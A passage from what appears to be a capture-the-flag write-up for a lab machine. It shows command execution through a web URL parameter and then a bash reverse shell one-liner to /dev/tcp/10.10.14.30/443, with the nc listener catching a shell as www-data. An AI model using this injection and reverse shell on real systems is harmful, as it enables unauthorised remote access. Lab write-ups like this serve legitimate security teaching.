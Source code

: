 Now on visiting `http://10.10.10.114/profile/?0xdf=id`, I see faint
white text at the top left:

[![](/img/1567948801713.png)*Click for full
size ![image*](/img/1567948801713.png)

In the view source window, I can see the result in the middle:



    <body>
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
        <link href='http://fonts.googleapis.com/css?family=Open+Sans' rel='stylesheet' type='text/css'>
    <link href="//maxcdn.bootstrapcdn.com/font-awesome/4.2.0/css/font-awesome.min.css" rel="stylesheet">



### Shell

Now to translate that to a shell, I'll visit
`http://10.10.10.114/profile/?0xdf=bash -c 'bash -i >%26 /dev/tcp/10.10.14.30/443 0>%261'`,
and I get a callback on `nc`:



    root@kali# nc -lvnp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.114.
    Ncat: Connection from 10.10.10.114:48796.
    bash: cannot set terminal process group (1171): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@bitlab:/var/www.md/profile$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
